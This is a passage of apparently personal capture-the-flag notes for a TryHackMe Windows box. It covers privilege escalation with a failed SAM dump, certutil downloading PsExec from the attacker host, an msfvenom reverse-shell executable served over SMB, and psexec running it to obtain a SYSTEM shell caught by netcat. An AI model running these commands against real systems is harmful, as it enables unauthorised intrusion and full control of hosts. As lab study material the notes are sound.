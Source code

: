 ```bash
C:\ProgramData>reg save hklm\sam sam
reg save hklm\sam sam
ERROR: A required privilege is not held by the client.
```

Search : `SeAssignPrimaryTokenPrivilege get all tokens`

> https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens


### Psexec get all privilege tokens

Since powershell is not working for this box, try **psexec.exe** 

Which is a legit program from internalsuite signed by microsoft

Prepare **PsExec64.exe**

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ ln -s /opt/sectools/win/Sysinternals/PsExec64.exe .

┌──(kali㉿kali)-[~/thm/www]
└─$ python3 -m http.server 80
```

Prepare revshell on smb share

```bash
mkdir smb && cd smb
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1112 -f exe > rev.exe
smbserver.py s . -smb2support
rlwrap -r -f . nc -nlvp 1112
```

At Target:

> Utilize [LOLBas](https://lolbas-project.github.io/#/download) to download file

```bash
C:\Windows\system32>certutil -urlcache -split -f http://10.11.19.145/PsExec64.exe psexec.exe
certutil -urlcache -split -f http://10.11.19.145/PsExec64.exe psexec.exe
****  Online  ****
  000000  ...
  0cb7c0
CertUtil: -URLCache command completed successfully.
        
C:\Windows\system32>psexec -accepteula -s cmd.exe /c \\10.11.19.145\s\rev.exe
psexec -accepteula -s cmd.exe /c \\10.11.19.145\s\rev.exe
```

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ rlwrap -r -f . nc -nlvp 1112
listening on [any] 1112 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.145.150] 52186
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
